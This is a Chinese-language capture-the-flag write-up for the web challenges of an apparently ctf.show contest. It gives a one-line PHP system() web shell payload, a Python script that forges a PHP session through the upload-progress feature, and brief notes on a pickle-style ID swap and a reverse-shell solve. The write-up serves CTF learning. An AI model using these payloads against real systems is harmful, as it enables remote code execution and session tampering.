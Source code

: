 # WEB （AK）
## easy_eval
`<script language="PHP">system($_GET[id])</script>`

## 剪刀石头布（一血）
清除缓存关了而且序列化配炸了，可以改session文件反序列化。

```python
import requests

sessid = '3fdf87d71c34752abdf204f47249273d'

url = 'http://908d1b93-8d9b-4fbb-8e64-90031da54973.challenge.ctf.show/'

resp = requests.post(url,
                     data={'PHP_SESSION_UPLOAD_PROGRESS': '2|s:1:"2";name|s:1:"1";win|i:100;'},
                     files={'11': '23'},
                     cookies={'PHPSESSID': sessid})

r = requests.get(url, cookies={'PHPSESSID': sessid})
print(r.text)
```

## baby_pickle
第一次访问传name=I1，之后替换把I1改成I0，同时就改了名字和ID。然后id=0就有flag了

## repairman
不知道是不是非预期，那个解析参数的地方可以覆盖config，本地覆盖一个乱七八糟的东西然后就能算出固定的md5了。  
有了admin.【】的md5就有无过滤的exec了，我是反弹了shell解的。

## 简单的数据分析
随机数，精度有限，乘一个足够大的值就没什么差距了
![图 1](images/3260db0c4995648ae64ca1d04899e2dfe2dd8e72654634b7466df450dda03ccf.png)  
